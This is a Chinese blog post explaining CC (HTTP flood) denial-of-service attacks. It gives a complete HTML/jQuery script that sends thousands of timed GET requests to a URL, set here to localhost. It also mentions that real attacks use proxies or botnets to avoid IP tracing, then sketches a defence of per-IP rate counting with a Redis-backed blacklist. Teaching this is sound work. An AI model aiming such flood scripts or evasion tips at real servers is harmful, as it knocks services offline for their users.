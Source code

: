 ```yaml
---
title: Javascript 模拟CC攻击与防范浅析
date: 2017-10-15 18:13:17
tags: [干货, JavaScript]
categories: Java
---
```

# CC攻击的原理与防范浅析
#### 本人菜鸟一枚，如果说得不对，请见谅，欢迎指正。
## 一、CC攻击的原理： 
##### CC攻击的原理就是攻击者控制某些主机不停地发大量数据包给对方服务器造成服务器资源耗尽，一直到宕机崩溃。CC主要是用来攻击页面的，每个人都有这样 的体验：当一个网页访问的人数特别多的时候，打开网页就慢了，CC就是模拟多个用户(多少线程就是多少用户)不停地进行访问那些需要大量数据操作(就是需 要大量CPU时间)的页面，造成服务器资源的浪费，CPU长时间处于100%，永远都有处理不完的连接直至就网络拥塞，正常的访问被中止。

## 二、Js 模拟CC 攻击
#### CC攻击的种类有三种，直接攻击、代理攻击、僵尸网络攻击
#### 我们就来简单的模拟一下，我这种算是 直接攻击
#### 记住这个只是：简单模拟，简单模拟，简单模拟。
##### 我就一台电脑，没肉鸡。
> js 代码如下：

```
<html>
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<script  src="http://libs.baidu.com/jquery/1.7.2/jquery.min.js"></script>
</head>
<body>
 <h1>发送请求数：<span id="requestNum">0</span></h1>
<script>
var i=0;
var task="";
//攻击次数
var attackNum = 10000;
//攻击地址
var url="http://127.0.0.1/blog";

//隔几毫秒攻击一次
var time=100;

$(document).ready(function(){	
	task = setInterval("MainTask()",time);
})
function MainTask(){
	i++;
	sendRequest(i);	
	addNum(i);
	if(i > attackNum){
		clearInterval(task);
	}
}
function sendRequest(i){
	console.log("send",i);
	$.ajax({
		type:"get",
		url:url,
		cache:false,
		dataType:"json",
		data:{},
		success:function(data){
			console.log("result-text:",data);
		}
	});
}
function addNum(num){
	$("#requestNum").text(num);
}
</script>
</html>
```
> 这只是简单的模拟，现实中不会那么简单，用本机攻击是可以追踪到你的ip，所以大部分都是通过代理或者肉鸡，进行攻击。ajax 可以不显示回调，不然会耗自己的带宽，我这里简单的模拟。而且现实中还有跨越问题等东西。

## 三、防御浅析
#### 思路：利用拦截器，拦截所有请求，统计单位时间内，单个IP访问的次数。如果访问次数超过你限制的数量，直接拉到黑名单。下次不给访问。统计个数可以用redis来实现，黑名单可以放在数据库，也可直接放缓存。最后就是放数据库，然后服务器启动时，把黑名单缓存起来。

#### springboot 拦截器  和  springboot 操作redis 我都有相对应的文章 与，源码示例，在博客可以搜 springboot 或者点击springboot 标签
#### 防御的具体实现代码，我就不说，这小防御代码挺简单的。
